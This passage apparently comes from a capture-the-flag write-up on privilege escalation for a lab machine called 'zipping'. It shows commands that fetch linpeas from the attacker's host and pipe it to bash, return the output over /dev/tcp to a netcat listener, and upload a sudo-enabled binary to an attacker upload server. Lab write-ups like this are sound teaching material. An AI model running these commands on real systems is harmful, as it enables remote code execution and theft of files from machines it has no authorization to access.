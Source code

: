 Host linpeas:

```bash
$ py -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

start a listener to capture linpeas output:

```bash
nc -lp 9002 | tee linpeaoutput
```

and fire off linpeas

```bash
curl 10.10.14.207:8000/peas | bash &> /dev/tcp/10.10.14.207/9002 &
```

Running `sudo -l` and off the bat we get something interesting:

```bash
rektsu@zipping:/var/www/html/shop$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

This looks like a custom binary, let’s download it to inspect further.

Star the upload server:

```bash
py -m uploadserver
```

and on the box:

```bash
rektsu@zipping:/var/www/html/shop$ which python3
/usr/bin/python3
$ python3 -c 'import requests;requests.post("http://10.10.14.207:8000/upload",files={"files":open("/usr/bin/stock","rb")})'
```

![Ghidra showing decomp of main function](Assets/ghidra_main.jpg)